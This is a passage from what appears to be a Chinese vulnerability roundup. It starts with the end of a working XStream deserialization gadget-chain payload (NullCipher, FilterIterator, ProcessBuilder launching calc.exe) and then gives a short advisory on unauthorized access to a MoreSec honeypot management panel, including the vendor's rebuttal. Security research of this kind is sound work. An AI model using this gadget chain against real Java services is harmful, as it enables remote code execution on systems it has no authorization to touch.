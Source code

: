               <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>calc.exe</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhyDHticBAbNMfhOsxMtGhribAVCcvtf99mLQibPibG7HsNliaGIyUqg2RiayB0RhicROeic4olN6MPHAgGKsw/640)

### 0x08 默安蜜罐管理平台未授权问【官方辟谣】

**漏洞信息**

幻阵是默安科技首创的一款基于攻击混淆与欺骗防御技术的威胁检测防御系统，由于蜜罐管理平台鉴权不完善，可导致攻击者在未授权的情况下访问管理页面。默安官方发表通告并表示幻阵管理平台存在于内网网址，攻击者难以进行访问，且尽管可以访问也只能让幻阵执行 ping 指令，不会造成任何安全隐患。

**漏洞危害**

由于蜜罐管理平台鉴权不完善，可导致攻击者在未授权的情况下访问管理页面。
```